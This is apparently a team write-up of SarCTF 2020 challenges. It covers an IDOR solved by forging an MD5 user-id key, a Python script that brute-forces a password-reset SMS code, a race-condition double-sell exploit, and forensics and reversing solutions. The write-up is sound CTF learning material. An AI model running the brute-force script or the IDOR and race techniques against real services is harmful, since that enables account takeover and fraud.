

# SarCTF 2020 WriteUp by (mendung)10^6
## Author: f4r4w4y

### Door Paradox (821 pts)
**Category: Web**  
Challenge description:
> Here comes an interesting fact. 221B Baker Street didn’t exist. During the time when the detective was being written, Baker Street was not long and house numbers did not go above 85. The house numbers were written on the front doors of the houses. Although contemporary Museum of Sherlock Holmes has an adresse « 221B Baker Street » it is actually located between house numbers 237 and 241. In reality it’s 239. But let’s go back to the point of the competition. We wrote a messenger for you, because we want you to be comfortable talking. Account for you: test:test

Challenge Link : http://sherlock-message.ru

First i do some reconnaissance  
- Login with uname = `test`, pass = `test`
- Check all the menu
- find a textbox and able to send message; tried sql injection, xss and all stuff in it but no work
- Check the message and we can see message from other user such as admin1 and admin2

From last point of recon, we probably have to check message between admin1 and admin2 and to be able to do so we have to be one of the admin first so i check on the login request, and nothing interesting

So i check request sent when clicking on `Messages` menu, and you can see there is `POST` request sent


And indeed parameter of the post request seems crackable 

`key = eccbc87e4b5ce2fe28308fd9f2a7baf3`

Go [here](https://crackstation.net/) to crack the key and it shows that it is md5 of `3`  
I guess `3` is id of user `test` so lets change the `key` param by changing local cookie of `access_key` with md5 of `1` and see the message

And we got the flag = **FLAG{iD00r_with_insecure_token}**


---

### Admin (957 pts)
**Category: Web**  
Challenge Description:
> I'm not an expert, but it seems to me that something needs to be hacked here

Challenge Link : http://sherlock-message.ru/admin

This challenge is on the same site as `Door Paradox`

I stack on this challenge for long time until organizers give 2 hints which are
- just one million possible combinations..
- I think the code is somewhere between **260000** and **280000**

There is `forgot your password` button on the site that ask for 6 digit secret code so as what i guess before we just need to bruteforce the code, and because the hint says its around 260000 and 280000 so we only need to bruteforce numbers between them

Here's the script i made to do so:
```python
import requests 
  
# defining the api-endpoint  
API_ENDPOINT = "http://sherlock-message.ru/api/admin.restore"
  
i = 260000
hash = 'a48659a0024e30fdf1ff41dfee1acf69'
need_sms = True

while(need_sms) :

    print("sms_code = ", i)
    print("need_sms = ", need_sms)

    data = {'hash':hash, 
            'sms_code':i,} 

    r = requests.post(url = API_ENDPOINT, data = data) 

    data = r.json()
    if data['response'] != 'Incorrect hash' :
        hash = data['response']['new_hash']
        need_sms = data['response']['need_sms']
        i+=1
        if not need_sms :
            print('Correct Code = ', i)
            break
    else :
        print("Oops auth error")
        break
```

flag = **FLAG{bruTe_with_hash_f0rce}**

---

### Car for Sherlock (1964 pts)
**Category: Web**  
Challenge Description:
> While chasing a serial killer Sherlock Holmes stopped a wrong person. Now, thanks to my « bot », you can buy a car for Sherlock, so he doesn’t have to run chasing taxis anymore.

Challenge Link : https://vk.com/club187880935

We were given a link to vk.com so we have to create an account there.

So there is a bot in the given link


And we can send them a message  


Sending `/commands` will make the bot reply like this


So we need to get 101 money in order to buy FLAG from the bot but we only have 100 money

I try all the commands and after lots of trying i just notice some noticeable delay when selling a product, maybe `race condition` (?), so i try to buy 1 product and send `/sell` commands many time at once and surely it worked


it gave us the `Good Sell` twice and now we have 200 money, so just buy the flag


flag = **FLAG{RaCe_CtF_C0NdItI0n}**

---

### Doc. Holmes (100 pts)
**Category: Forensics**  
Challenge Description:
> Sherlock got it on his super secret channels. You have received a copy of mail. Is everything okay with it?

And we were given a file : [some.file](challs/some.file)

Doing file command on it says that its a Ms Word file
```bash
[fai@f4r4w4y doc-holmes]$ file some.file 
some.file: Microsoft Word 2007+
```

I tried binwalk to extract some hidden files inside and got these bunch of files from it
``` bash
[fai@f4r4w4y doc-holmes]$ cd _some.file.extracted/
[fai@f4r4w4y _some.file.extracted]$ ls
total 288
-rw-r--r-- 1 wheel 276460 Feb 15 21:39  0.zip
-rw-r--r-- 1 wheel   1363 Jan  1  1980 '[Content_Types].xml'
drwxr-xr-x 2 wheel   4096 Feb 15 21:39  docProps
drwxr-xr-x 2 wheel   4096 Feb 15 21:39  _rels
drwxr-xr-x 5 wheel   4096 Feb 15 21:39  word
```

After looking some of the files, we got the flag


flag = **FLAG{prominentplace}**

---

### Blogger (632 pts)
**Category: Forensics**  
Challenge Description:
> Recently, John's keys began to be pressed by themselves when he runs his blog. You need to figure out what's the matter.

And we were given a pcap file : [usb_here.pcapng](challs/usb_here.pcapng)

Looking at the pcap file in wireshark we can see a lot of USB URB packet data, and if we look at one of the packet we can see there is Leftover Capture Data, so this is a captured keyboard key typed


So we need to dump all the leftover capture data from all packet using this bash script:
```bash
tshark -r usb_here.pcapng -T fields -e usb.capdata > usb_dump.txt
```

and use [this](script/keyboardTranslator.py) script to convert it to keyboard data
```shell
[fai@f4r4w4y blogger]$ python keyboardTranslator.py usb_dump.txt
	Sherlock, John, and Henry then visit the holow in the hope of finding the hound. On the way, John notices what sems to be FLAG{like_a_b10dh0und}	E[fa
```

and we get the flag = **FLAG{like_a_b10dh0und}**

----

### Crossw0rd (309 pts)
**Category: Reverse**  
Challenge Description:
> While the children were playing toys, Sherlock was solving crosswords in large volumes.

And we were given a binary file : [crossw0rd](challs/crossw0rd)

Its a 64 bit binary
```shell
[fai@f4r4w4y crossword]$ file crossw0rd 
crossw0rd: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2e45dc319e3736db1643abb283b0ed9a18681261, not stripped
```

and when we run it
```shell
[fai@f4r4w4y crossword]$ ./crossw0rd 
Welcome. You're in function check. Please Enter a password to continue. 1 attempt remaining:
test
Wrong password! Your attempt is over.
[fai@f4r4w4y crossword]$ 
```

It needs a kind of `password` and when its correct maybe it will give us the flag (?)

So i open it in ghidra and see the main function  


There is check function, lets see it  


Inside of it we can see that our input buffer goes to other function called `checkInput` and it return a value and if its equal to `'\0'` it says `Wrong password! ...`

Looking at the `checkInput` function  


There is a check to an array which is our input buffer and its checking the array or in this case the string content (char inside the string) and check it to some value and if its right then `isCorrect` will be 1 and `checkInput` will also return 1 and password will be correct

but if we see again that the `cVar1` is also checked with `b` function with our input goes into it so lets check the function  


It got another check, so i guess the flag is the password and we just need to match each char in the string with the check value

I manually checked it and got the flag = **FLAG{3a5yr3v3r5ing}**